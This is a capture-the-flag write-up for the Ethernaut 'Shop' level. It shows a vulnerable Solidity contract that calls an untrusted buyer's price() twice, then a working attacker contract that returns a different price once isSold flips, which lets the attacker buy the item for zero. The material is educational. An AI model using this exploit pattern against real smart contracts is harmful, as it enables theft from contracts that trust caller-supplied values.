 # Ethernaut: 21. Shop

> Сan you get the item from the shop for less than the price asked?

**Objective of CTF:**

- Get the item for a smaller price.

**Target contract:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

We had a similar puzzle back in the Elevator level: we need a function to return different things in a single transaction. The most barebones solution would be to check `gasLeft()` and return different results based on it, but here we have a cleaner solution.

```solidity
function buy() public {
  Buyer _buyer = Buyer(msg.sender);

  // during this call, isSold is false
  if (_buyer.price() >= price && !isSold) {
    // the state will change for isSold
    isSold = true;
    // during this call, isSold is true
    price = _buyer.price();
  }
}
```

As commented above, we can query the value of `isSold` and return a different result based on it. Our attacker contract will look like below, assuming we provide the Shop contract and the Buyer interface:

```solidity
contract BadBuyer is Buyer {
  Shop target;
  constructor(address _target) {
    target = Shop(_target);
  }

  function price() external view override returns (uint) {
    return target.isSold() ? 0 : 100;
  }

  function pwn() public {
    target.buy();
  }
}
```
